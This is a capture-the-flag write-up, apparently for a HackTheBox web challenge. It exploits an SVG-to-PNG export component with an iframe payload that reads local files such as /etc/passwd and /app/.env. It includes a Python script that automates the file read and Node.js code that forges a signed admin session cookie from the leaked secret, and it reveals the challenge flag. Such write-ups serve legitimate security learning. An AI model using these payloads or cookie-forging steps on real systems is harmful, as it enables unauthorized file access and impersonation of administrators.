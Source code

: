![image](https://user-images.githubusercontent.com/80063008/169338058-95c85aba-8ba1-47ac-90ac-afe39631efc7.png)

We can register an account and log in.

![image](https://user-images.githubusercontent.com/80063008/169338101-0ab7a421-1c1a-4d06-9cb9-c8f89b1f8522.png)

Once we log in, we can see some interaction on Cell Structure and Tadpole template. Below them we can see that only the admin can view the confidential records. That should be where the flag is.

![image](https://user-images.githubusercontent.com/80063008/169338299-9277fa52-d63d-47fd-85c4-5510e631e2b8.png)

At first I experimented with XSS in the SVG file but soon found that the cookie is protected.

![image](https://user-images.githubusercontent.com/80063008/169339083-5c8c6e0a-fc13-49b5-914c-33a281990403.png)

The export buttons use SVG to export the data and converting it to a PNG file. After a bit of research we can find a vulnerable component that does just that.

https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244

The payload below allows us to get Arbitrary File Read.

```html
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

![image](https://user-images.githubusercontent.com/80063008/169339610-ab3aa35c-a4fa-440e-8152-ce7b0906da08.png)

To make my life easier, I wrote a python script to read files faster and set eog to ignore png transparency.

```python
import requests
import json
import sys
import os

fl = sys.argv[1]

data = {"svg":f"<svg-dummy></svg-dummy>\n<iframe src=\"file://{fl}\" width=\"100%\" height=\"1000px\"></iframe>\n<svg viewBox=\"0 0 240 80\" height=\"1000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\">\n  <text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text>\n</svg>"}
url = ' http://157.245.40.139:32544/api/export'
headers = {"Cookie": "session=eyJ1c2VybmFtZSI6Imxhenl0aXRhbiJ9; session.sig=IzxeO6oyWMpbXGnq45L_6RUc4gw", "Content-Type":"application/json"}
proxy ={"http":"http://127.0.0.1:8080"}

r = requests.post(url, headers=headers, json=data, proxies=proxy)
jsonResponse = str(r.text)
json_object = json.loads(jsonResponse)

url2 = json_object['png']

x = requests.get('http://157.245.40.139:32544' + url2)

with open("file.png", "wb") as file:
    file.write(x.content)

os.system('eog file.png')
```

![image](https://user-images.githubusercontent.com/80063008/169340472-f74db0f9-32f5-40a5-90aa-6b76c8a61c22.png)

When exporting tadpoles it accesses a null svg value which gives an error message. This error leaks folder path of the web app.

![image](https://user-images.githubusercontent.com/80063008/169340748-c7af38b0-4648-4c9a-a664-66b584784723.png)

I can leak the secret for the cookie by reading /app/.env.

![image](https://user-images.githubusercontent.com/80063008/169341018-04790260-28e7-4869-b7ed-802e01b9388b.png)

5921719c3037662e94250307ec5ed1db

This is the /app/index.js file where we see the secret being used and that it uses cookie-session.

![image](https://user-images.githubusercontent.com/80063008/169341742-0cc671ed-ef98-4be0-81d9-e79e520e8846.png)

We can Google that for a bit to find ways to use the secret and generate valid session cookies and signature.

![image](https://user-images.githubusercontent.com/80063008/169341954-45cd8f60-e7a2-46dc-839b-5ff178238ce8.png)

The first result mentions Keygrip and after a bit of research, we can try to use it. First install it.

```
npm install keygrip
```

Then generate and sign the session:

```javascript
var Keygrip = require('keygrip')

let cookie = Buffer.from(JSON.stringify({'username':'admin'})).toString('base64');
let sig = Keygrip([ "5921719c3037662e94250307ec5ed1db" ]);
let hash = sig.sign('session=' + cookie);
console.log(cookie)
console.log(hash)
```

And we get our session and session.sig values:

![image](https://user-images.githubusercontent.com/80063008/169342549-76daf1f0-e773-4ad2-b092-48655e2024f7.png)

Another way to generate the session and sesion.sig without using Keygrip:

```javascript
var URLSafeBase64 = require('urlsafe-base64');
var crypto = require("crypto");
let cookie = Buffer.from(JSON.stringify({'username':'admin'})).toString('base64');
let test = crypto.createHmac('sha1', "5921719c3037662e94250307ec5ed1db").update('session=' + cookie).digest('base64');
let hash = URLSafeBase64.encode(test)
console.log(cookie)
console.log(hash)
```

Replace those in the browser and get the flag.
![image](https://user-images.githubusercontent.com/80063008/169342635-b54ec96c-3f99-4959-add3-669818367ab3.png)

Because of the background and font, we can just simply look at the page source and copy+paste it.

![image](https://user-images.githubusercontent.com/80063008/169342725-2f3ae647-ef47-4236-9cd0-7ac7cfbaed6f.png)

HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}

